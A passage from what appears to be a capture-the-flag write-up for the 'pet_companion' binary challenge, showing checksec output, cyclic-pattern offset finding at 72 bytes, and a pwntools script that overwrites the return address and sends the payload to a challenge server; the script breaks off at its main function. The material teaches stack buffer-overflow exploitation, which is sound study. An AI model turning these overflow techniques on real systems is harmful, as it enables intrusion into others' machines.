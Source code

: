 Seems like a payload injection exploiting a buffer overflow to run a shellcode.

Checking the security:
```bash
checksec --file=pet_companion 

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified   Fortifiable     FILE
Full RELRO      No canary found   NX enabled    No PIE         No RPATH   RW-RUNPATH   65 Symbols        No    0  1
pet_companion

```
Seems fine.


First, we need to override the return value like in Rocket Blaster.
```
msf-pattern_create -l 0x100 

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A
```

```
*RSP  0x7fffffffdc98 ◂— 0x6341356341346341 ('Ac4Ac5Ac')
 ► 0x4006df <main+149>    ret    <0x6341356341346341>
```

```
msf-pattern_offset -q '0x6341356341346341'
[*] Exact match at offset 72
```

So we need to override at address 72.
I'm going to try to insert the main function address ( ``0040064a`` )

```python
from pwn import *

LOCAL_FILE_PATH: str = "./pet_companion"
REMOTE_SERVER = "83.136.252.62"
REMOTE_PORT = 30929

def pwn_pet_compagnion(proc):
    proc.recvuntil(b"[!] Set your pet companion's current status: ")
    payload = b"A"*72
    payload += p64(0x0040064a)

    # Send the payload
    proc.sendline(payload)
    with open ('input.txt', 'wb') as out:
        out.write(payload)

    print(b"trying payload", payload)
    res = proc.recvall(timeout=2)
    print(bytes.decode(res))

def run_remote():
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn_pet_compagnion(conn)

def run_bin_local(process_path: str):
    proc = process([process_path])
    pwn_pet_compagnion(proc)

def main():
```